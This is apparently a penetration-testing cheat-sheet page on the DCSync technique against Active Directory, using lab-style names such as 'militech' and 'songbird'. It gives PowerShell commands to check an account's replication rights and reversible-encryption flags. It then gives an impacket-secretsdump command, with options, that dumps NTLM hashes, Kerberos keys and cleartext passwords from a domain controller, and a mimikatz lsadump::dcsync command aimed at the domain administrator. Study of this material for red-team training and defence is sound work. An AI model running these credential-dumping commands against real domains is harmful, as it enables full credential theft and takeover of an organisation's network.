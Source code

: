 # DCSync

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**DCSync**</mark> is a <mark style="color:purple;">**post-exploitation technique**</mark> that abuses the <mark style="color:red;">**Microsoft Directory Replication Service Remote Protocol (MS-DRSR)**</mark>, which is normally used to synchronize data between Domain Controllers.

If an attacker obtains the appropriate replication privileges in Active Directory (such as <mark style="color:blue;">`Replicating Directory Changes All`</mark>), they can **impersonate a Domain Controller and request a targeted sync** of sensitive directory data — including password hashes, Kerberos tickets, and user credentials — without replicating the entire domain.

This results in full credential compromise over the network, without touching LSASS or memory on a domain controller.

## <mark style="color:yellow;">Checking Privs</mark>

### <mark style="color:blue;">Group Membership Check</mark>

```powershell
PS C:\> Get-DomainUser -Identity songbird | select samaccountname,objectsid,memberof,useraccountcontrol | fl
```

### <mark style="color:blue;">Rights Check</mark>

```powershell
PS C:\> $sid = "S-1-5-21-blahblahblah-1164"
PS C:\> Get-ObjectAcl "DC=militech,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

### <mark style="color:blue;">Reversible Encryption Check</mark>

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
</strong># OR
PS C:\> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
</code></pre>

## <mark style="color:yellow;">Secretsdump</mark>

```bash
impacket-secretsdump -outputfile militech_hashes -just-dc MILITECH/songbird@13.13.13.13 
```

### <mark style="color:blue;">Additional Parameters</mark>

* <mark style="color:green;">`-just-dc-ntlm`</mark> - NTLM hashes only
* <mark style="color:green;">`-just-dc-user <USERNAME>`</mark> - Extract data for certain user
* <mark style="color:green;">`-pwd-last-set`</mark> - To see last time user changed password
* <mark style="color:green;">`-history`</mark> - If we want to dump password history
* <mark style="color:green;">`-user-status`</mark> - Check if user is disabled

<mark style="color:green;">**Secretsdump**</mark> would make few files each for each type of credentials:

* `Kerberos Tickets`
* `NTLM Hashes`
* `Cleartext Reversible Passwords` (if option turned on, and because we are replicating DC, tool automaticly tooks also decryption keys and decrypt them)&#x20;

## <mark style="color:yellow;">Mimikatz</mark>

```shell-session
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:MILITECH.LOCAL /user:MILITECH\administrator
```
